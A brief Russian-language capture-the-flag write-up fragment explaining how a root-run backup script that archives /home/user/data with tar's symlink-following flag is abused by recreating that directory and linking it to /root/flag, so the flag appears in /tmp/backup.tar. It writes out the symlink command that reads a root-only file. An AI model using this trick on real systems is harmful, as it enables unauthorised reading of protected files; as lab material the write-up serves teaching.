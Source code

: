 Находим скрипт /opt/backup.sh
```
#!/bin/bash
tar cfh /tmp/backup.tar /home/user/data
```
Прав на opt,backup.sh и /home/user/data изменения/удаление/создания нет, но мы можем удалить и создать новую директорию data, в которой создадим символическую ссылку на /root/flag
```
ln -s /root/flag /home/user/data/flag.txt
```
Проверим /tmp/backup.tar и получим флаг